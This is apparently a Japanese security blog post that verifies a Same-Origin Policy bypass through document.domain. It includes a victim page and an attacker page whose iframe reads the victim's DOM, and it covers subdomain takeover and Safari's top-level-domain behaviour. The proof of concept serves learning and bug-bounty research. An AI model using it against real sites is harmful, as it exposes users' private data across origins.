 ```yaml
---
id: bypassing-the-same-origin-policy-via-document_domain
title: document.domainに起因するSame-Origin Policyのバイパス
publishedAt: 2018-09-16T00:00:00.000Z
tags: [Web, セキュリティ, Bugbounty, 検証]
---
```


## はじめに

`document.domain`に関わる面白いSOPバイパスの手法を検証した。

## 概要

`document.domain`は古くからSOPを緩和するために使われてきたようだ。
例えば、同じ親ドメインを持つ2つのオリジン(例: `foo.exapmle.com`と`bar.example.com`)があり、SOPに縛られることなく互いに通信を行いたいとする。このとき、双方で`document.domain`の値に`example.com`を設定することで、2つのドメインは互いのDOMにアクセスすることができるようになる。
今回検証したバイパス手法は、この挙動を利用したものである。

## 条件

以下の条件を満たしているとき、SOPをバイパスできる。

1. 対象のページのdocument.domainが上位ドメインに設定されている
2. 問題のあるページのサブドメインのコンテンツをクライアント側で制御できる

## 検証

まず、被害者のサイトに見立てて、以下のような`victim.example.com`というページを用意する。

```html
<!-- victim.example.com -->
<meta charset="utf-8">
<script>
    console.log(document.domain);
    document.domain = "example.com";    // vuln
    console.log("document.domainの値は次のように設定されています。: " + document.domain);
    document.write("このテキストはvictim.example.comに書かれたものです。");
</script>
```

このコードでは、5行目で`document.domain = "example.com"`としている。
そのため、攻撃者の用意する以下のような`attacker.example.com`で同様に`document.domain = "example.com"`とすると、攻撃者のページからも`victim.example.com`のDOMへのアクセスが可能になる。
攻撃の成立にはサブドメインのコンテンツを制御できる必要があるが、一般的な例ではSubdomain Takeoverでそれが可能になる。

```html
<!-- attacker.example.com -->
<meta charset="utf-8">
<script>
    console.log(document.domain);
    document.domain = "example.com";
    console.log("document.domainの値を次のように設定します。: " + document.domain);
</script>
<iframe src="http://victim.example.com/" onload="alert(contentDocument.body.innerHTML)"></iframe>
```

実際に`attacker.example.com`にChromeでアクセスすると、`victim.example.com`のページの内容を`attacker.example.com`から取得できていることが確認できた。

![attacker.example.comにアクセスした際の画面](img/bypassing-the-same-origin-policy-via-document_domain/the_result_of_accessing_attacker_example_com.png?w=1397&h=823)

## 脅威

検証では、`attacker.example.com`から`victim.example.com`の内容を読み出せた。
もし、FacebookやTwitterなどに同じ問題(バグ)があった場合には、ユーザのメッセージやその他の情報を読み出される可能性がある。
また、`document.domain`に最上位ドメインである`com`や`org`などが設定されている場合には、`victim.example.com`に対して、例えば`evil.com`からの攻撃が可能になる。なお、現在は`document.domain`に最上位ドメインを設定できる主要ブラウザはSafariのみで、その他の主要ブラウザではエラーになる。(詳細: [https://hackerone.com/reports/398163/])

## まとめ

上位ドメインを共有する2つのオリジンのdocument.domainに、共有している上位オリジンを設定すると双方のDOMにアクセスできるようになる。
これを利用して、問題のあるページのサブドメインのコンテンツをクライアント側で制御できるとき、SOPをバイパスしてそのページのコンテンツにアクセスすることが可能になる。また、サブドメインのコンテンツをクライアント側で制御できるようにする方法としてSubdomain Takeoverが挙げられるが、主要ブラウザの中でSafariのみは`document.domain`に`com`や`org`などの最上位ドメインを設定できるため、Subdomain Takeoverが不要なケースがある。

## 感想

このネタはTwitterで見かけたもので、検証が簡単だったので記事にしました。
(HackerOneで公開されたレポートは追うようにしているけど、今回の記事に関連するfiledescriptor氏の[レポート](https://hackerone.com/reports/398163)は見落としてしまっていたなあ...。)
書き終わってから思ったのですが、2つのオリジンで`document.domain`の値を変更して同一オリジンにしてるのを、SOPのバイパスと呼んで良いものか微妙ですね。

あと、Safariでは`document.domain`に最上位ドメインを設定できるってところ、実はMacを持っていないのでWindows版Safari(バージョン5.1.7)でしか検証できていません。
もし、最新版のMacで検証した人がいたら、結果を教えていただけたら幸いです。
Mac買いたいなあ...。

## 参考資料

- [Bypassing Same-Origin-Policy - document.domain](https://www.aa7ifs.com/bypassing-same-origin-policy-using-document-domain/)
- [https://hackerone.com/reports/398163](https://hackerone.com/reports/398163)
- [クロスドメイン制約 を document.domain の 変更 で 回避 - galife](https://garafu.blogspot.com/2013/09/documentdomain.html)
